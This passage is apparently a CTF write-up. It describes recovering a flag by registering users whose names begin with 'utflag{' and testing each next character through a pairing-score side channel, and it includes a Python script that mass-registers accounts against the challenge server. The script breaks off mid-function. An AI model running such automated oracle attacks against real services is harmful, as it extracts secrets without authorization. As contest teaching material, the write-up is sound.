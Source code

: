 So this number is the **sum** of all of the remaining characters.

So could we:
1. Make a user starting with `utflag{`
2. Repeatedly try users with the next character (`a-Z0-9_}` character set) and see what drops the score the lowest.
3. Repeat for each character?

### Scripting

This is the script that I used to get the flag:
```python
import requests
import time
import string
import random
import os
import json
import sys
import re

# Configuration
url = "http://challenge.utctf.live:3725/index.php"
VALID_CHARS = string.ascii_letters + string.digits + "_" + "{}"
SAVE_FILE = "flag_progress.json"

def generate_username():
    return ''.join(random.choice(string.ascii_lowercase + string.digits + "_") for _ in range(random.randint(5, 12)))

def print_progress_bar(iteration, total, prefix='', suffix='', length=50):
    percent = f"{100 * (iteration / float(total)):.1f}"
    filled_length = int(length * iteration // total)
    bar = '█' * filled_length + '-' * (length - filled_length)
    sys.stdout.write(f'\r{prefix} |{bar}| {percent}% {suffix}')
    sys.stdout.flush()
    if iteration == total:
        print()

def register_user(username, password, max_retries=10):
    if not (all(c in VALID_CHARS for c in username + password) and 
            1 <= len(username) <= 16 and 1 <= len(password) <= 32):
        return False
    
    data = {"username": username, "password": password}
    
    for _ in range(max_retries):
        try:
            response = requests.post(url, data=data)
            if "Successfully registered" in response.text:
                return True
            elif "already taken" in response.text:
                data["username"] = generate_username()
            time.sleep(1)
        except:
            time.sleep(1)
    
    return False

def check_pairing(username1, username2, max_retries=10):
    data = {"username1": username1, "username2": username2}
    
    for _ in range(max_retries):
        try:
```